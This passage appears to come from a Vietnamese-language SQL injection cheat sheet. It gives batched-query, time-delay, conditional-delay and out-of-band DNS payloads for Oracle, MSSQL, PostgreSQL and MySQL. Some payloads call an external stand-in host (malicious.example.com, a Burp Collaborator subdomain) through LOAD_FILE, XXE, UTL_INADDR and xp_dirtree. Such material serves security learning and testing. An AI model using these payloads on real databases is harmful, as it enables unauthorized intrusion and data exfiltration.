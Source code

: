VIII. Batched (or stacked) queries<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/f42c8d81-b59f-4f8f-86a6-fa8c66b8e22d)<br>

- thực hiện tiêm hàng loạt truy vấn, can dùng để khai thác lỗ hổng mù<br>
1. Microsoft SQL Server<br>
- SELECT * FROM users; WAITFOR DELAY '00:00:10';<br>
2. PostgreSQL<br>
- SELECT * FROM users; SELECT 1/(SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 0 THEN 0 ELSE 1 END);<br>
3. MySQL<br>
- SELECT * FROM users; SELECT LOAD_FILE('\\\\malicious.example.com\\abc');<br>

IX. Time delays<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/ce9b9e14-1417-4a0b-871b-258d6901af7b)<br>

- tạo độ trễ thời gian khi truy vấn đc xử lý trong database, check app có ảnh hưởng bởi tiêm SQL ko (VD: 10s)<br>
1. Oracle<br>
```
BEGIN
  dbms_pipe.receive_message(('a'),10);
END;
```
<br>
2. Microsoft SQL Server<br>
- WAITFOR DELAY '0:0:10';<br>
3. PostgreSQL<br>
- SELECT pg_sleep(10);<br>
4. MySQL<br>
- SELECT SLEEP(10);<br>

X. Conditional time delays<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/d1999fc4-d4ad-4bf0-b144-a3883110f0fe)<br>

- check 1 đk bool và kích hoạt độ trễ thời gian nếu đk đúng, check app bị SQL ảnh hưởng ko
- Giả sử bạn muốn tạo độ trễ nếu giá trị của cột age lớn hơn 100.<br>
1. Oracle<br>
- SELECT CASE WHEN (age > 100) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual;<br>
2. Microsoft SQL Server<br>
- IF (age > 100) WAITFOR DELAY '0:0:10';<br>
3. PostgreSQL<br>
- SELECT CASE WHEN (age > 100) THEN pg_sleep(10) ELSE pg_sleep(0) END;<br>
4. MySQL<br>
- SELECT IF(age > 100, SLEEP(10), 'a');<br>

XI. DNS lookup<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/4e1707c7-3cef-474b-97be-72bcc86aaf21)<br>

- Bạn có thể khiến cơ sở dữ liệu thực hiện một tra cứu DNS tới một miền ngoài. Để làm điều này, bạn sẽ cần sử dụng Burp Collaborator
 để tạo ra một tên miền con độc nhất của Burp Collaborator mà bạn sẽ sử dụng trong cuộc tấn công, sau đó kiểm tra máy chủ Collaborator để xác nhận rằng một tra cứu DNS đã xảy ra.<br>
1. Oracle<br>
- Trong Oracle, bạn có thể sử dụng lỗ hổng XXE để kích hoạt tra cứu DNS. Mặc dù lỗ hổng này đã được vá, nhưng vẫn có nhiều cài đặt Oracle chưa được vá:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://your-collaborator-subdomain.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual;
- Phương pháp sau đây hoạt động trên các cài đặt Oracle đã được vá đầy đủ, nhưng yêu cầu quyền cao hơn: SELECT UTL_INADDR.get_host_address('your-collaborator-subdomain.burpcollaborator.net');<br>
2. Microsoft SQL Server<br>
- exec master..xp_dirtree '//your-collaborator-subdomain.burpcollaborator.net/a';<br>